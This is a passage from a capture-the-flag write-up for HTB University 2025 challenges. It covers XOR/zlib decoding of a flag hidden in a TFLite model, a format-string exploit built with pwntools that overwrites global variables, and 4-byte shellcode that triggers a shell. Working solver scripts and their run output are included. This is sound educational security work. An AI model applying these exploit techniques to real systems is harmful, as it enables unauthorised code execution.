00000410: 0100 0000 0100 0000 aeff ffff 0000 0001  ................
00000420: 1000 0000 1000 0000 0400 0000 3000 0000  ............0...
00000430: dcfe ffff 2300 0000 6675 6e63 7469 6f6e  ....#...function
00000440: 616c 5f32 5f31 2f6d 6574 615f 686f 6c64  al_2_1/meta_hold
00000450: 6572 5f31 2f4d 6174 4d75 6c00 0200 0000  er_1/MatMul.....
00000460: 0100 0000 0400 0000 0000 1600 1800 1400  ................
00000470: 0000 1000 0c00 0800 0000 0000 0000 0700  ................
00000480: 1600 0000 0000 0001 1000 0000 1000 0000  ................
00000490: 0300 0000 1c00 0000 44ff ffff 0e00 0000  ........D.......
000004a0: 6172 6974 682e 636f 6e73 7461 6e74 0000  arith.constant..
000004b0: 0200 0000 0900 0000 0100 0000 a6ff ffff  ................
000004c0: 0000 0001 1400 0000 1c00 0000 1c00 0000  ................
000004d0: 0200 0000 3400 0000 0200 0000 ffff ffff  ....4...........
000004e0: 0400 0000 90ff ffff 1900 0000 7365 7276  ............serv
000004f0: 696e 675f 6465 6661 756c 745f 696e 5f6d  ing_default_in_m
00000500: 6574 613a 3000 0000 0200 0000 0100 0000  eta:0...........
00000510: 0400 0000 0000 1600 1c00 1800 0000 1400  ................
00000520: 1000 0c00 0000 0000 0800 0700 1600 0000  ................
00000530: 0000 0001 1400 0000 2000 0000 2000 0000  ........ ... ...
00000540: 0100 0000 3c00 0000 0200 0000 ffff ffff  ....<...........
00000550: 0100 0000 0400 0400 0400 0000 1c00 0000  ................
00000560: 7365 7276 696e 675f 6465 6661 756c 745f  serving_default_
00000570: 696e 5f70 6179 6c6f 6164 3a30 0000 0000  in_payload:0....
00000580: 0200 0000 0100 0000 0100 0000 0100 0000  ................
00000590: 1000 0000 0c00 0c00 0b00 0000 0000 0400  ................
000005a0: 0c00 0000 0900 0000 0000 0009            ............
```

At offset `0x210`, there's a suspicious pattern:

```bash
00000210: 1000 0000 6b00 4000 3300 4000 7900 4000  ....k.@.3.@.y.@.
00000220: 2100 4000 0000 0600 0800 0400 0600 0000  !.@.............
```

The bytes `6b 00 40 00 33 00 40 00 79 00 40 00 21 00 40 00` caught my attention. Looking at the pattern, every 4th byte starting from offset `0x214` forms a sequence:

- Offset `0x214`: `0x6b` = 'k'
- Offset `0x218`: `0x33` = '3'
- Offset `0x21c`: `0x79` = 'y'
- Offset `0x220`: `0x21` = '!'

This gives us a potential XOR key: **`k3y!`**

Right after the key pattern, at offset `0x238`, there's a chunk of data that looks encrypted:

```c
00000230: 0400 0000 2400 0000 13af 8a29 1a99 0fef  ....$......)....
00000240: 5a1b 3488 e744 4f09 59bd 7613 4500 570b  Z.4..DO.Y.v.E.W.
00000250: 5d7d d024 6b5e 5b29 e300 0000 08fd ffff  ]}.$k^[)........
```

The encrypted payload starts at offset `0x238` and continues to `0x25c` (36 bytes total):

```
13af8a291a990fef5a1b3488e7444f0959bd76134500570b5d7dd0246b5e5b29e3000000
```

### Solution

The solution involves two steps:

1. **XOR Decryption**: Using the key `k3y!` in a repeating pattern
2. **Decompression**: The decrypted data turns out to be zlib-compressed

To recover the flag, we reverse this process by XOR decrypt first, then decompress.
Here's the complete solution script:

```python
#!/usr/bin/env python3
import zlib

with open('snownet_stronger.tflite', 'rb') as f:
    data = f.read()

key = "k3y!"
key_bytes = key.encode()
print(f"[+] XOR key found: {key}")

# Encrypted data is at 0x238-0x25c
enc_data = data[0x238:0x25c]
print(f"[+] Encrypted data length: {len(enc_data)} bytes")
print(f"[+] Encrypted data (hex): {enc_data.hex()}")

# XOR decrypt
dec = bytes([enc_data[i] ^ key_bytes[i % len(key_bytes)] for i in range(len(enc_data))])

if dec[:2] == b'\x78\x9c':
    print("[+] Detected zlib compression")
    flag = zlib.decompress(dec)
    print(f"\n[*] Flag: {flag.decode('ascii')}")
else:
    print("[-] No compression detected")
    print(dec)
```
When we XOR decrypt the data with `k3y!`, the first two bytes become `78 9c`, which is the magic header for zlib compression. This reveals the encryption scheme:

1. Original flag was compressed with zlib
2. Compressed data was encrypted with XOR using key `k3y!`
3. Encrypted result was embedded in the TFLite file

Running the script:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/rev/cloudycore/rev_cloudy_core]
└─$ python sol.py
[+] XOR key found: k3y!
[+] Encrypted data length: 36 bytes
[+] Encrypted data (hex): 13af8a291a990fef5a1b3488e7444f0959bd76134500570b5d7dd0246b5e5b29e3000000
[+] Detected zlib compression

[*] Flag: HTB{Cl0udy_C0r3_R3v3rs3d}

```

### Flag

`HTB{Cl0udy_C0r3_R3v3rs3d}`

## Binary Exploitation — Feel My Terror

### Description

```
CHALLENGE NAME
Feel My Terror - Sponsored by Ynov Campus
These mischievous elves have scrambled the good kids’ addresses! Now the presents can’t find their way home. Please help me fix them quickly — I can’t sort this out on my own.
```

### Initial Analysis

We're given a 64-bit ELF binary that displays 5 "scrambled addresses" and asks us to fix them.

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/feelmyterror/challenge]
└─$ file feel_my_terror         
feel_my_terror: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0279c438d7336af633d04b39a9271e3a60746262, for GNU/Linux 3.2.0, not stripped                                                                                              
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/feelmyterror/challenge]
└─$ checksec feel_my_terror 
[*] '/mnt/hgfs/cybersec/ctfs/2025/univhtb25/pwn/feelmyterror/challenge/feel_my_terror'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

Key observations:

- **No PIE**: Binary addresses are static (good for us!)
- **Stack Canary**: Buffer overflow won't be straightforward
- **NX enabled**: Can't execute shellcode on stack
- **Full RELRO**: Can't overwrite GOT entries

Running the binary shows five randomly generated values:

```bash
⠀⠀⠀⠀⠀⠀⢀⣠⠤⠤⠶⣶⣶⠋⠳⡄⠀⠀ 
⠀⠀⠀⠀⠀⢀⡖⠉⠀⠀⡰⠻⡅⠙⠲⠞⠁⠀⠀⠀
⠀⠀⠀⠀⢀⡾⠖⠚⠉⠉⠛⠲⢷⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⣼⢀⣠⣤⡤⢤⣤⣤⣀⣷⠀⠀⠀⠀⠀⠀
⠀⠀⠀⡴⠻⣍⠳⠖⣃⣘⠓⠖⣩⡟⢦⠀⠀⠀⠀⠀
⠀⠀⢰⡇⠀⢨⠿⠺⣇⣸⠗⠿⡅⠀⠘⡇⠀⠀⠀⠀
⠀⠀⠈⣧⠀⠛⠶⠚⠧⠼⠓⠶⠛⠀⣸⠧⣄⠀⠀⠀
⠀⠀⣰⠋⠹⡄⠀⠀⠀⠀⠀⠀⢠⠯⣥⣶⡮⡷⣄⠀
⠀⣸⢡⠞⠀⠙⠲⠤⣤⣤⠤⠖⠋⠀⣏⣀⣗⡷⠸⡆
⣰⢓⡟⠒⠶⠤⠤⢴⣻⣟⣶⠤⠤⢶⡏⠉⢻⠀⠀⢷
⢹⢻⣓⠲⠤⠤⠤⣼⡻⣟⣿⠤⠤⠬⠟⣛⡏⠀⠀⡾
⠈⢻⣌⠉⠓⠒⠶⠤⠭⠭⠥⠶⠒⠚⠉⣁⡟⠀⡴⠃
⠀⠀⠈⠻⣟⠒⠒⠦⣤⣤⠶⠖⠒⣻⣿⠥⠖⠋⠀⠀
⠀⠀⠀⠀⢨⣏⣉⣉⡇⢸⣉⣉⣹⡇⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⣇⣀⣀⣀⡇⢸⣀⣀⣀⣸⠀⠀⠀⠀⠀⠀

[Nibbletop] Look at the mess the ELVES made:

--------------------
Address 1: 0x5d6807c
Address 2: 0xd22cc52
Address 3: 0xb55c91d
Address 4: 0x656817c
Address 5: 0x34b6d09
--------------------

[Nibbletop] Please fix the addresses to help me deliver the gifts :)

> 
```

These values change every time the program is executed, which suggests they are generated dynamically at runtime.

Using Ghidra, we can identify a function named `randomizer()` that is responsible for generating these values.

```c
void randomizer(void)

{
  long lVar1;
  int iVar2;
  time_t tVar3;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  tVar3 = time((time_t *)0x0);
  srand((uint)tVar3);
  iVar2 = rand();
  arg1 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg2 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg3 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg4 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg5 = iVar2 % 0x10000000 + 1;
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function seeds the pseudo-random number generator using the current Unix timestamp and stores five random values into global variables (`arg1`–`arg5`). These values are later printed as the “scrambled addresses”.

The `main()` function contains the vulnerability:

```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_d8 [200];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  randomizer();
  local_d8[0] = '\0';
  local_d8[1] = '\0';
  local_d8[2] = '\0';
  local_d8[3] = '\0';
	....
  local_d8[0xc3] = '\0';
  local_d8[0xc4] = '\0';
  local_d8[0xc5] = '\0';
  info("Look at the mess the ELVES made:\n\n--------------------\nAddress 1: 0x%x\nAddress 2: 0x%x\n Address 3: 0x%x\nAddress 4: 0x%x\nAddress 5: 0x%x\n--------------------\n"
       ,arg1,arg2,arg3,arg4,arg5);
  info("Please fix the addresses to help me deliver the gifts :)\n\n> ");
  read(0,local_d8,0xc5);
  info("I hope the addresses you gave me are correct..\n\n");
  printf(local_d8);
  fflush(stdout);
  info("Checking the database...\n");
  check_db();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```

The main vulnerability appears in the `main()` function. After printing the addresses, the program reads user input into a stack buffer and passes it directly to `printf()`:

```c
read(0, local_d8, 0xc5);
printf(local_d8);
```

Here, `local_d8` is fully controlled by the user and is used **as the format string itself**, rather than as a normal argument. This introduces a **format string vulnerability**.

This vulnerability allows an attacker to:

- Leak memory using format specifiers such as `%p` or `%x`
- Write arbitrary values to arbitrary memory addresses using `%n`

After the vulnerable `printf()` call, the program executes `check_db()` :

```c
  read(__fd,local_48,0x2f);
  if ((((arg1 == -0x21524111) && (arg2 == 0x1337c0de)) && (arg3 == -0xcc84542)) &&
     ((arg4 == 0x1337f337 && (arg5 == -0x5211113)))) {
    success("Thanks a lot my friend <3. Take this gift from me: \n");
    puts(local_48);
    close(__fd);
  }
```

This function validates the global variables `arg1`–`arg5` against **hardcoded expected values**. If all comparisons succeed, the program prints the flag.

Since the binary is compiled **without PIE**, all global variables reside at fixed, predictable memory addresses. This allows us to directly reference them when crafting our format string payload. 


We can clearly see the global variables `arg1` through `arg5`, along with their corresponding addresses in the `.bss` section. These variables are referenced in both the `randomizer()` function (where they are initialized with random values) and the `check_db()` function (where they are validated against hardcoded constants).

The attack path is clear:

1. Use the format string vulnerability to **write arbitrary values** to memory
2. Overwrite `arg1-arg5` with the correct values before `check_db()` executes
3. The validation passes and we get the flag

The target values (converting negative constants to hex):

- `arg1 = -0x21524111` → `0xDEADBEEF`
- `arg2 = 0x1337c0de` → `0x1337C0DE`
- `arg3 = -0xcc84542` → `0xF337BABE`
- `arg4 = 0x1337f337` → `0x1337F337`
- `arg5 = -0x5211113` → `0xFADEEEED`

> Note: Negative constants in `check_db()` are represented in two’s complement, which correspond to the hexadecimal values used in the exploit.
> 

### Solution

Before we can write to arbitrary addresses, we need to find where our input buffer sits on the stack. We can find the offset using a simple test script:

```python
from pwn import *

context.binary = './feel_my_terror'

p = process('./feel_my_terror')

p.recvuntil(b'> ')

pos = ''
for i in range(1, 10):
    pos += f'{i}:%{i}$p '

p.sendline(pos.encode())
p.recvuntil(b'correct..\n\n')
output = p.recvline()
print(output.decode())

p.close()
```

Running this test:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/feelmyterror/challenge]
└─$ python test.py
[*] '/mnt/hgfs/cybersec/ctfs/2025/univhtb25/pwn/feelmyterror/challenge/feel_my_terror'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './feel_my_terror': pid 5895
1:(nil) 2:(nil) 3:0x7fffbb1527e0 4:(nil) 5:(nil) 6:0x3220702431253a31 7:0x3a3320702432253a 8:0x253a342070243325 9:0x35253a3520702434 

[*] Stopped process './feel_my_terror' (pid 5895)
```

Let's decode what we're seeing:

- Positions 1-2: `(nil)` - empty/null values
- Position 3: `0x7ffc65f231d0` - stack address
- Positions 4-5: `(nil)` - empty/null values
- Position 6: `0x3220702431253a31` = `"2 p1%:1"` in ASCII (part of our input!)
- Position 7: `0x3a3320702432253a` = `":3 p2%:"` in ASCII
- Position 8: `0x253a342070243325` = `"%:4 p3%"` in ASCII
- Position 9: `0x35253a3520702434` = `"5%:5 p4"` in ASCII

At position 6, we start seeing our own input string being read back! The hex values are our format string encoded in little-endian. This means our buffer starts at **offset 6** on the stack.

Let’s do the exploit, use `pwntools` `fmtstr_payload()` to generate the payload:

```python
from pwn import *

context.binary = './feel_my_terror'

# Target addresses
arg1_addr = 0x40402c
arg2_addr = 0x404034  
arg3_addr = 0x40403c
arg4_addr = 0x404044
arg5_addr = 0x40404c

# Target values
targets = {
    arg1_addr: 0xdeadbeef,
    arg2_addr: 0x1337c0de,
    arg3_addr: 0xf337babe,
    arg4_addr: 0x1337f337,
    arg5_addr: 0xfadeeeed,
}

# io = process('./feel_my_terror')
io = remote('154.57.164.73', 31480)

io.recvuntil(b'> ')

payload = fmtstr_payload(6, targets, write_size='short')
io.sendline(payload)

io.interactive()
```

### Flag

`HTB{1_l0v3_chr15tm45_&_h4t3_fmt}`

## Binary Exploitation — Shl33t

### Description

```markdown
CHALLENGE NAME
SHL33T
The mischievous elves have tampered with Nibbletop’s registers—most notably the EBX register—and now he’s stuck, unable to continue delivering Christmas gifts. Can you step in, restore his register, and save Christmas once again for everyone?
```

### Initial Analysis

Let’s anaylze what binary we working on:

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/shl33t/challenge]
└─$ file shl33t                 
shl33t: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6bd527d1e1ffe23cd8cde17a97cf771c50738e7, for GNU/Linux 3.2.0, not stripped                                                                                                       
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/shl33t/challenge]
└─$ checksec shl33t        
[*] '/mnt/hgfs/cybersec/ctfs/2025/univhtb25/pwn/shl33t/challenge/shl33t'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The binary is a 64-bit ELF with most modern mitigations enabled:

- Full RELRO
- Stack Canary
- NX
- PIE
- SHSTK & IBT

To understand the program logic, we decompile the binary using Ghidra. From the output, the most relevant function is `main`, which drives the main challenge: 

```c

/* WARNING: Removing unreachable block (ram,0x00101ab6) */

undefined8 main(void)

{
  long lVar1;
  code *__buf;
  ssize_t sVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  signal(0xb,handler);
  signal(4,handler);
  info("These elves are playing with me again, look at this mess: ebx = 0x00001337\n");
  info("It should be ebx = 0x13370000 instead!\n");
  info("Please fix it kind human! SHLeet the registers!\n\n$ ");
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf == (code *)0xffffffffffffffff) {
    perror("mmap");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar2 = read(0,__buf,4);
  if (0 < sVar2) {
    (*__buf)();
    fail("Christmas is ruined thanks to you and these elves!\n");
    if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  fail("No input given!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}

```

Looking at the decompiled code, we can identify the key steps:

```c
info("These elves are playing with me again, look at this mess: ebx = 0x00001337\n");
info("It should be ebx = 0x13370000 instead!\n");
info("Please fix it kind human! SHLeet the registers!\n\n$ ");
```

The program explicitly tells us: EBX needs to be `0x13370000` instead of `0x00001337`.

```c
__buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf == (code *)0xffffffffffffffff) {
    perror("mmap");
    exit(1);
  }
```

Allocates 4096 bytes of RWX (read-write-execute) memory. Protection `7` = `PROT_READ | PROT_WRITE | PROT_EXEC`.

```c
sVar2 = read(0,__buf,4);
  if (0 < sVar2) {
    (*__buf)();
```

Reads exactly **4 bytes** from stdin into the executable buffer, then **executes it as code** via function pointer call. This gives us arbitrary code execution with a 4-byte constraint.

```c
fail("Christmas is ruined thanks to you and these elves!\n");
    if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
    __stack_chk_fail();
  }
  fail("No input given!\n");
  exit(1);
}
```

This is the win check, but Ghidra's decompilation doesn't show it clearly. Let's use GDB to see the actual assembly:

```bash
0x0000000000001aa8 <+288>: mov    eax,ebx                    ; copy ebx value
0x0000000000001aaa <+290>: mov    DWORD PTR [rbp-0x34],eax
0x0000000000001aad <+293>: cmp    DWORD PTR [rbp-0x34],0x13370000  ; CHECK!
0x0000000000001ab4 <+300>: jne    0x1af2 <main+362>          ; jump to fail if not equal
```

If `ebx` equals `0x13370000`, the program calls `success()` and spawns a shell:

```bash
0x0000000000001ab6 <+302>: lea    rax,[rip+0x1463]
0x0000000000001abd <+309>: mov    rdi,rax
0x0000000000001ac0 <+312>: mov    eax,0x0
0x0000000000001ac5 <+317>: call   0x169e <success>
0x0000000000001aca <+322>: lea    rax,[rip+0x1488]           # "/bin/sh"
0x0000000000001ad1 <+329>: mov    rdi,rax
0x0000000000001ad4 <+332>: call   0x11b0 <system@plt>        ; system("/bin/sh")
```

Otherwise, it calls `fail()` and exits. What we know:

- `ebx` starts as `0x00001337`
- User-controlled code executes before the comparison
- Only **4 bytes** of shellcode are allowed
- The goal is to transform `ebx` from `0x00001337` into `0x13370000`
- We must return cleanly to `main` after our code executes

### Solution

Looking at these values in binary:

- Initial: `0x00001337` = `0000 0000 0000 0000 0001 0011 0011 0111`
- Target: `0x13370000` = `0001 0011 0011 0111 0000 0000 0000 0000`

We can see that the target is simply the initial value shifted left by 16 bits!

The Assembly Instructions:

```asm
shl ebx, 16    ; shift ebx left by 16 bits
ret            ; return to main
```

- `shl ebx, 16` transforms `0x00001337` → `0x13370000`
- `ret` is required so execution returns cleanly to `main` for the comparison check

Here’s my solver:

```python
from pwn import *

context.binary = './shl33t'
context.arch = 'amd64'

# p = process('./shl33t')
p = remote('154.57.164.83', 30702)

payload = asm('shl ebx, 16; ret')

log.info(f"Payload: {payload.hex()} ({len(payload)} bytes)")

p.send(payload)
p.interactive()
```

Running the Exploit

```bash
┌──(chjwoo㉿hackbox)-[~/…/univhtb25/pwn/shl33t/challenge]
└─$ python solver.py
[*] '/mnt/hgfs/cybersec/ctfs/2025/univhtb25/pwn/shl33t/challenge/shl33t'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 154.57.164.83 on port 30702: Done
[*] Payload: c1e310c3 (4 bytes)
[*] Switching to interactive mode
\x1b[2J\x1b[0;0H
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣠⣤⣤⣤⣤⣤⣤⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣶⠟⠛⠋⠉⠉⠉⠉⠉⠉⠉⠉⠙⠛⠳⢶⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⠻⣶⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠏⠀⠀⠀⠀⠀⢾⣦⣄⣀⡀⣀⣠⣤⡶⠟⠀⠀⠀⠀⠀⠀⠈⠻⣷⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣤⣤⣴⡿⠃⠀⣶⠶⠶⠶⠶⣶⣬⣉⠉⠉⠉⢉⣡⣴⡶⠞⠛⠛⠷⢶⡆⠀⠀⠈⢿⠶⠖⠚⠛⠷⠶⢶⣶⣤⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⠀⠀⢀⣠⣴⡾⠛⠋⠉⡉⠀⠀⠀⠀⠀⢀⣠⣤⣤⣤⡀⠉⠙⠛⠛⠛⠛⠉⠀⠀⢀⣤⣭⣤⣀⠀⠀⠀⠀⠈⠀⠀⢀⣴⣶⣶⣦⣤⣌⡉⠛⢷⣦⣄⠀⠀⠀⠀⠀⠀                                                                                                                              
⠀⠀⢠⣶⠟⠋⣀⣤⣶⠾⠿⣶⡀⠀⠀⠀⣴⡟⢋⣿⣤⡉⠻⣦⠀⠀⠀⠀⠀⠀⢀⣾⠟⢩⣿⣉⠛⣷⣄⠀⠀⠀⠀⢰⡿⠑⠀⠀⠀⠈⠉⠛⠻⣦⣌⠙⢿⣦⠀⠀⠀⠀                                                                                                                              
⠀⣴⡟⠁⣰⡾⠛⠉⠀⠀⠀⢻⣇⡀⠀⢸⣿⠀⣿⠋⠉⣿⠀⢻⡆⠀⠀\xe2\xa0\x80⠀⠀⣾⡇⢰⡟⠉⢻⣧⠘⣿⠀⠀⠀⠀⣼⠇⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⡇⠀⠙⢷⣆⠀ 
⢰⡟⠀⢼⡏⠀⠀⠀⠀⠀⠀⠈⠛⠛⠀⠈⢿⣆⠙⠷⠾⠛⣠⣿⠁⠀⠀⠀⠀⠀⠹⣧⡈⠿⣶⠾⠋⣼⡟⠀⠀⠀⢀⣿⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⠶⠶⣶⣤⣌⡻⣧⡀
⢸⣧⣯⣬⣥⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠿⢶⡶⠾⠛⠁⠀⠀⠀⠀⠀⠀⠀⠙⠻⢶⣶⣶⠿⠋⠀⠀⠀⠰⣼⡏⠀⠀⠀⠀⠀⠀⢠⣾⠏⠀⠀⠀⠀⠈⠉⠛⠛⠃
⠀⠀⠀⠈⠉⠉⠉⠛⠿⣶⣄⠀⠀⠀⠀⠀⠀⠀⠀⣲⣖⣠⣶⣶⣶⠀⠀⠀⠀⣀⣤⣤⡂⡀⠀⠀⠀⠀⠀⠀⠀⢸⠟⠀⠀⠀⠀⠀⢀⣴⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣷⣄⠀⠀⠀⠀⢠⣾⠋⠁⢿⣇⠀⠀⠀⠀⠀⠀⢙⠉⣹⡇⠻⠷⣶⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣷⣤⣀⡀⠘⠟⠃⠀⠈⢙⣷⡄⠀⠀⠀⣠⣶⠿⠋⠁⠀⠀⠀⠙⣿⠀⠀⢠⣤⣤⣶⠶⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⣿⡄⠀⠀⠀⠀⠀⢸⣿⠀⠀⢰⡿⠁⠀⠀⠀⠀⠀⠀⣠⡿⠀⢠⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣄⠀⠀⠀⠀⠀⢻⣧⣠⡿⠁⠀⠀⠀⠀⠀⠀⠀⠉⠁⣴⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣆⠀⢿⣦⡀⠀⠉⠉⠀⠀⠀⠀⠀⣀⣄⠀⠀⢠⣾⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣧⡀⠙⠻⢷⣦⣄⣀⣤⣤⣶⠾⠛⠁⢀⣴⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣷⣄⡀⠀⠀⠀⠀⠀⠀⢀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠛⠿⠷⠶⠶⠾⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

[Nibbletop] These elves are playing with me again, look at this mess: ebx = 0x00001337

[Nibbletop] It should be ebx = 0x13370000 instead!

[Nibbletop] Please fix it kind human! SHLeet the registers!

$ 
[Nibbletop] HOORAY! You saved Christmas again!! Here is your prize:
HTB{sh1ft_2_th3_l3ft_sh1ft_2_th3_r1ght_605cf0bb18274d233e8e245e0312d58f}[*] Got EOF while reading in interactive
$  
```

### Flag

`HTB{sh1ft_2_th3_l3ft_sh1ft_2_th3_r1ght_605cf0bb18274d233e8e245e0312d58f}`